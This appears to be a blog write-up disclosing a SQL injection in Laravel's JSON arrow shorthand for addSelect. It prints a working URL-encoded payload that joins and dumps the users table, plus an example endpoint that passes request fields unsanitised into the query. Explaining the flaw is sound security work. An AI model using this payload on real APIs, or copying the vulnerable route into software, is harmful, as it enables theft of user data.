 Laravel has the ability to manually specify which columns to select on a query.
It also offers a nice shorthand to work with JSON data:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs>');
```

```
<hljs keyword>SELECT JSON_EXTRACT</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs>"') FROM blogs;
```

Instead of manually writing `JSON_EXTRACT`, we can use the simplified `->` syntax, 
which Laravel will convert to a the correct SQL statement.

Laravel won't do any escaping during this conversion. 
Consider the following example:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs><hljs red>'#</hljs>');
```

By inserting `'#` in our input, we can manually close the `JSON_EXTRACT` function, 
and ignore the rest of the query:

```
<hljs keyword>SELECT JSON_EXTRACT</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs><hljs red>'#</hljs><hljs textgrey>"') FROM blogs;</hljs>
```

This query will fail, but what about the next one?

```
<hljs keyword>SELECT JSON_EXTRACT</hljs>(
    `<hljs green>title</hljs>`, 
    '$."<hljs blue>en</hljs><hljs red>"')) 
FROM blogs RIGHT OUTER JOIN users ON users.id <> null
#</hljs>
    <hljs textgrey>"') FROM blogs;</hljs>
```

We're adding an outer join on the `users` table. 
Essentially selecting all data in it. 

For reference, here is the URL encoded version of the malicious code:

```
<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

Say we have the following endpoint in our application, to query blog posts from a public API:

```php
<hljs type>Route</hljs>::<hljs prop>get</hljs>('/posts', function (<hljs type>Request</hljs> $request) {
    $fields = $request-><hljs prop>get</hljs>('fields', []);

    $users = <hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>($fields)-><hljs prop>get</hljs>();

    return <hljs prop>response</hljs>()-><hljs prop>json</hljs>($users);
});
```

Users of this API might only be interested in a few fields, 
that's why we added a `field` filter.

The endpoint can now be used like this:

```
/blog?fields[]=url&fields[]=title
```

What if we inserted our malicious code instead?

```
/blog?fields[]=<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

It will be added to the query. And by returning the query result as JSON, 
we'll see the full contents of the users table. 

```php
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>([
    '<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>'
])-><hljs prop>get</hljs>();
```

Two things need to be in place for this attack to be possible:

- An accessible API endpoint, which allows an attacker to write to the `addSelect` or `select`.
Chances are you're not doing this manually in your project.
Though there are popular packages which allow this functionality to provide easy API endpoints.
A popular example is the JSON API spec, which specifically allows for [sparse fieldsets](*https://jsonapi.org/format/#fetching-sparse-fieldsets).
- The entry point table must have a column with JSON data. 
Otherwise the `JSON_EXTRACT` function will fail, stopping our query. 
From the entry point though, you can access all data.

As far as I can tell, it's not possible to write to the database with this approach, 
as Laravel only allows one query to be executed. 
If you're inserting `;` to end the current query and start a new one, you'll get an error.
